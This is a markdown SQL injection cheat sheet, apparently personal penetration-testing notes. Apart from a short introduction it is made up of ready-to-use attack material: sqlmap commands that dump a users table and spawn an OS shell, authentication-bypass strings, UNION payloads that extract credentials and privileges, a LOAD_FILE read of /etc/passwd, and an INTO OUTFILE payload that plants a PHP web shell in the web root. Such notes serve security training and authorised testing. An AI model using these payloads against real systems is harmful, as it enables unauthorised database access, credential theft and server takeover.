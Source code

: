 # SQL Injections

SQL injection refers to attacks against relational databases. Most modern web applications utilize a database structure on the back-end. Such databases are used to store and retrieve data related to the web application, from actual web content to user information and content. 

When user-supplied information is used to construct the query to the database, malicious users can trick the query into being used for something other than what the original programmer intended.


# SQLi Discovery
### Payloads
``` 	
' 	
" 	
# 	
; 	
) 
```

## SQLMap

The easiest way to run it.

1) intercept request in burp.
2) right click 'copy to file'
3) Here file named tosql

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/d5e0080f-9148-467e-b731-d2a09289684b)

### Enumerate user, db

```
sqlmap -r tosql --banner --current-user --current-db --is-dba --batch
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/17061fd0-bc0e-4bd7-a935-289e61d41316)


### Enumerate tables

```
sqlmap -r tosql  --tables -D public
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7c5a02e1-fa0d-4281-892f-a425df00e753)


### Dump table of interest
```
sqlmap -r tosql --dump -T users -D public
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/e670f1a5-9664-4523-9517-ac5d91ac3f1e)

### Spawn a shell

```
sqlmap -r tosql --os-shell
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7707e8bc-3a1e-465f-b8ff-28ebf589e2f8)


## Examples

## Union box

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/df9e7367-c6f6-4ecb-a3cc-4adecc5d4682)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/93eec906-1c0e-4695-91e9-b890e734ad32)

```
' UNION select user();-- -
```



## CheatSheet
More comprehensive can be found Payloadallthethings
SQL Injection
Payload 	Description
### Auth Bypass 	
```
admin' or '1'='1 	Basic Auth Bypass
admin')-- - 	Basic Auth Bypass With comments
```
Auth Bypass Payloads 	
### Union Injection 	
```
' order by 1-- - 	Detect number of columns using order by
cn' UNION select 1,2,3-- - 	Detect number of columns using Union injection
cn' UNION select 1,@@version,3,4-- - 	Basic Union injection
UNION select username, 2, 3, 4 from passwords-- - 	Union injection for 4 columns
```
### DB Enumeration 	
```
SELECT @@version 	Fingerprint MySQL with query output
SELECT SLEEP(5) 	Fingerprint MySQL with no output
cn' UNION select 1,database(),2,3-- - 	Current database name
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- - 	List all databases
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - 	List all tables in a specific database
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- - 	List all columns in a specific table
cn' UNION select 1, username, password, 4 from dev.credentials-- - 	Dump data from a table in another database
```
### Privileges 	
```
cn' UNION SELECT 1, user(), 3, 4-- - 	Find current user
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- - 	Find if user has admin privileges
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- - 	Find if all user privileges
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- - 	Find which directories can be accessed through MySQL
```
### File Injection 	
```
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- - 	Read local file
select 'file written successfully!' into outfile '/var/www/html/proof.txt' 	Write a string to a local file
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- - 	Write a web shell into the base web directory
```
